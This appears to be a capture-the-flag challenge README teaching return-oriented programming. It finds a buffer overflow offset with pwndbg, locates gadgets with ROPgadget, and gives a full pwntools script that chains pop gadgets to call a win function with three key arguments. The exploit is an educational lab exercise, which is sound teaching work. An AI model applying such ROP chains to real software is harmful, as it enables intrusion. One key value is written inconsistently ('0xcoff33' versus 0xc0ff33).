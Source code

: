 # Challenge Name
kidrop

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
Let's find out the secrets to pwn...But I need 3 keys ;-;

## Difficulty:
easy

## Guide
Looking at the code, we have to use ret2win again for the uncalled `treasureChest` function. However, we have to fulfil the function arguments in order to call it.
`secretKey` function is also a red herring.
1. key1 = 0x13371337
2. key2 = 0xdeadbeef
3. key3 = 0xcoff33

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use **3** arguments, so we need to use `rdi`, `rsi` & `rdx` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `treasureChest` function
3. Gadgets required for the function arguments

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijn sequence)
2. `run`
3. you should see that the `RSP` pointer contains `jaaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

#### To find `treasureChest` function address:
```sh
$> objdump -d chall | grep treasureChest
0000000000400727 <treasureChest>:
...
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary chall | grep "pop rdi"
0x00000000004008c3 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary chall | grep "pop rsi"
0x00000000004008c1 : pop rsi ; pop r15 ; ret
```

For `rdx` register:
```sh
$> ROPgadget --binary chall | grep ": pop rdx"
0x00000000004007f7 : pop rdx ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `treasureChest` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + key1 (0x13371337)
3. pop rsi address + key2 (0xdeadbeef) + redundent value (0)
4. pop rdx address + key3 (0xcoff33)
5. return address of `treasureChest` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = process("./chall")
context.binary = "./chall"

# ROP gadgets
pop_rdi = 0x4008c3 # pop rdi
pop_rsi = 0x4008c1 # pop rsi, pop r15
pop_rdx = 0x4007f7 # pop rdx 

# address of treasureChest 
win = 0x400727

# offer
payload = b'A' * 72

# ---------------------- ROP chain ---------------------------
# pop rdi + key1
# pop rsi + key2 + 0 (no need for r15)
# pop rdx
# address of treasureChest
payload += p64(pop_rdi) + p64(0x13371337)
payload += p64(pop_rsi) + p64(0xdeadbeef) + p64(0)
payload += p64(pop_rdx) + p64(0xc0ff33)
payload += p64(win)

# send and receive output
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. How many arguements do you need? Which registers do you need?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
TBD